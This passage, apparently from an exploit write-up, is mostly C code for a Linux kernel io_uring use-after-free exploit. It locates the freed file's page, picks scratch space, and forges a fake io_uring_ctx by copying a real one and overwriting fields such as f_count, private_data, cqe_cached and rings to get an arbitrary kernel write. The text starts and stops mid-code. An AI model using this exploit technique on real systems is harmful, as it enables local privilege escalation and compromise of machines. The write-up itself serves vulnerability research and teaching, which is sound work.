 ```c
    // Calculate the offset
    g_off = curr_file & 0xFFF;

    // Set the globals
    g_file_addr = curr_file;
    g_pipe_buf = g_file_addr - g_off;

    return;
}
```

And then determining the location of our scratch space where we will forge the fake `io_uring_ctx`:
```c
// Here, all we're doing is determing what side of the page the UAF file is on,
// if its on the front half of the page, the back half is our scratch space
// and vice versa
void set_scratch_space(void)
{
    g_scratch = g_pipe_buf;
    if (g_off < 0x500) { g_scratch += 0x500; }
}
```

Now we have one more read to do and this is really just to make the exploit easier. In order to avoid a lot of debugging while triggering my write, I need to make sure that my fake `io_uring_ctx` contains as many valid fields as necessary. If you start with a completely `NULL` object, you will have to troubleshoot every NULL-deref kernel panic and determine where you went wrong and what kind of value that member should have had. Instead, I chose to copy a legitimate instance of a real `io_uring_ctx` instead by reading and copying its contents to a global buffer. Working now from a good base, our forged object can then be set-up properly to perform our arbitrary write from, you can see me using the copy and updating the necessary fields here:
```c
void write_setup_ctx(char *buf, uint32_t what, uint64_t where)
{
    // Copy our copied real ring fd 
    memcpy(&buf[g_off], g_ring_copy, 256);

    // Set f->f_count to 1 
    uint64_t *count = (uint64_t *)&buf[g_off + 0x38];
    *count = 1;

    // Set f->private_data to our scratch space
    uint64_t *private_data = (uint64_t *)&buf[g_off + 0xc8];
    *private_data = g_scratch;

    // Set ctx->cqe_cached
    size_t cqe_cached = g_scratch + 0x240;
    cqe_cached &= 0xFFF;
    uint64_t *cached_ptr = (uint64_t *)&buf[cqe_cached];
    *cached_ptr = NULL_MEM;

    // Set ctx->cqe_sentinel
    size_t cqe_sentinel = g_scratch + 0x248;
    cqe_sentinel &= 0xFFF;
    uint64_t *sentinel_ptr = (uint64_t *)&buf[cqe_sentinel];

    // We need ctx->cqe_cached < ctx->cqe_sentinel
    *sentinel_ptr = NULL_MEM + 1;

    // Set ctx->rings so that ctx->rings->cq.tail is written to. That is at 
    // offset 0xc0 from cq base address
    size_t rings = g_scratch + 0x10;
    rings &= 0xFFF;
    uint64_t *rings_ptr = (uint64_t *)&buf[rings];
```